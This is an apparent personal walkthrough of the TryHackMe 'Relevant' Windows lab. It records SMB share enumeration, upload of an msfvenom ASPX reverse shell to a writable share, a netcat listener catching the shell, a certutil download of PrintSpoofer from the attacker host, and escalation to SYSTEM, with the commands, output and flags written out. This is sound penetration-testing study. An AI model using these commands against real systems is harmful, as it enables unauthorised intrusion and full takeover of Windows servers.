

#tryhackme #autorecon #oscp-report #print-spoofer #crackmapexec #asp #webshell #privilege-token #windows #msfvenom #certutil 

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.  

****Writeups will not be accepted for this room.****

# Report

> Used SysReporter to finish OSCP-like format report - https://labs.sysre.pt/projects/776be3b6-c60e-427b-8614-1914a9275ea5/


# Notes

> Potato Cheatsheet https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer

## Recon

### Autorecon

```bash
sudo $(which autorecon) -vv -m 5 --dirbuster.threads 50 10.10.19.222
```

### CrackMapExec

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ cme smb 10.10.193.232 -u a -p '' --shares
SMB         10.10.193.232   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.193.232   445    RELEVANT         [+] Relevant\a:
SMB         10.10.193.232   445    RELEVANT         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.193.232   445    RELEVANT         [+] Enumerated shares
SMB         10.10.193.232   445    RELEVANT         Share           Permissions     Remark
SMB         10.10.193.232   445    RELEVANT         -----           -----------     ------
SMB         10.10.193.232   445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.193.232   445    RELEVANT         C$                              Default share
SMB         10.10.193.232   445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.193.232   445    RELEVANT         nt4wrksv        READ,WRITE
```

## Exploitation

### Initial Access



Since I have write access to `nt4wrksv`

Upload an `aspx` reverse shell

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1111 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3406 bytes
Saved as: rev.aspx

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ smbclient.py a@10.10.193.232 -no-pass
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

Type help for list of commands
# use nt4wrksv
# put rev.aspx
# ls
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 .
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 ..
-rw-rw-rw-         98  Sat Jul 25 11:35:44 2020 passwords.txt
-rw-rw-rw-       3406  Fri Jun 23 08:00:35 2023 rev.aspx
#
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ curl http://10.10.193.232:49663/nt4wrksv/rev.aspx
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.193.232] 49929
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  21,052,596,224 bytes free

C:\Users>cd Bob
cd Bob

C:\Users\Bob>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  02:04 PM    <DIR>          Desktop
               0 File(s)              0 bytes
               3 Dir(s)  21,052,596,224 bytes free

C:\Users\Bob>cd Desktop
cd Desktop

C:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
C:\Users\Bob\Desktop>
```

### Privilege Escalation

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Potato attacks will not work on this machine, the creator made some defense for it

> Using PrintSpoofer to gain SYSTEM privilege for the interactive shell

```bash
c:\windows\system32\inetsrv>cd C:\Programdata
cd C:\Programdata

C:\ProgramData>certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.

C:\ProgramData>ps.exe -i -c powershell
ps.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system

PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\root.txt
cat C:\Users\Administrator\Desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\Windows\system32>
```

